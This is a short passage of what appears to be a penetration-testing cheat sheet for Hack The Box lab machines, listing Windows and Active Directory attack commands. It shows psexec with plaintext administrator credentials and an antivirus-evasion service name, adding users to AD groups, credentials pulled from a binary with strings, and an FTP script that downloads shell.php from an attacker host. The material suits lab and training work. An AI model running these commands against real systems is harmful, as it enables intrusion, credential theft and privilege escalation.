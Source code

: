&#x20;You can choose a service for avoiding antivirus detection with --service-name.

```
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 -service-name LUALL.exe
```

### Exploiting AD users

You should import the 'activedirectory' module first.&#x20;

```
Import-module activedirectory
```

Add an AD member to a Group

```
add-adgroupmember -Identity "$group" -Members $member
```

### Other Useful commands

Strings prints text strings embedded in binary files such as executables.

```
root@kali:~/htb/tally# strings tester.exe
!This program cannot be run in DOS mode.
Rich7J
~~~
~~~
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
~~~
~~~
```

Transfering file to windows

```
echo open $attackerip 21> ftp.txt 
echo USER offsec 
password>> ftp.txt 
echo bin>> ftp.txt 
echo GET shell.php >> ftp.txt 
echo bye >> ftp.txt
```

Then run

```
ftp -v -n -s:ftp.txt
```

#### List out all schedule tasks

```
schtasks /query /fo LIST /v
```
